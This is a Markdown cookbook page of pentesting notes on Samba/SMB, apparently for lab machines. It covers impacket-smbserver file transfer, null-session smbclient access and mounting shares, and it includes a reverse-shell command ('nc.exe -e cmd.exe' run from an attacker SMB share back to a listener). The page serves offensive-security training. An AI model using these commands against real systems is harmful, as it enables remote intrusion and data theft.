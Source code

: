 ```yaml
---
layout: default
title: Samba
parent: COOKBOOKS
has_children: false
has_toc: false
---
```


{% include toc.html %}

## References

[smbclient](https://www.computerhope.com/unix/smbclien.htm)

[Mounting Samba shares](https://wiki.samba.org/index.php/Mounting_samba_shares_from_a_unix_client)

## Using SMB shares to move files between systems
On Kali, create a local `smb` folder and copy the files to be uploaded into it. Use `locate impacket` and copy either the `smbserver.py` or `impacket-smbserver` shell script locally. Start a local `smb` server instance using either of these:
```
python3 smbserver.py share smb
./impacket-smbserver share smb
```

On Windows, use the share normally, for example:
```
cp file.ext \\10.10.14.12\share
cp \\10.10.14.12\share\file.ext C:\Users\some-user\Downloads\file.ext
```

## Reverse shell using nc.exe and SMB
On Kali, find a copy of `nc.exe` for Windows using `locate nc.exe` and copy it to the SMB share. On Kali, start a listener using `nc -lvnp 33445`. On Windows, in a web shell, run the following for a reverse shell: 

```
\\10.10.14.12\share\nc.exe -e cmd.exe 10.10.14.12 33445
```

This should now connect back to the listener.

## Starting samber server with smb2 support
Windows 10 won't connect to an `impacket-smbserver` instance without running the server with `smb2` support:
```
On Kali:
sudo /usr/bin/impacket-smbserver -ip 192.168.x.x -smb2support share smb

On Windows 10:
copy C:\path\to\file.ext \\192.168.x.x\share\file.ext
```

## Connecting to a share via a null session
Return an SMB prompt:
```
smbclient //10.10.10.134/Backups "" -N 

Try "help" to get a list of possible commands.
smb: \> 
```

## Getting help
```
smb: \> ? command
smb: \> help command
```

## Execute local shell command
```
smb: \> ! pwd       // This executes the command locally, not on the remote target
```

## Mount remote SMB share to local folder
Create a local folder to mount to and them mount in the usual way.
```
sudo mount -t cifs //10.10.10.193/print$ fabricorp-print/ -o rw,user=bhult
```
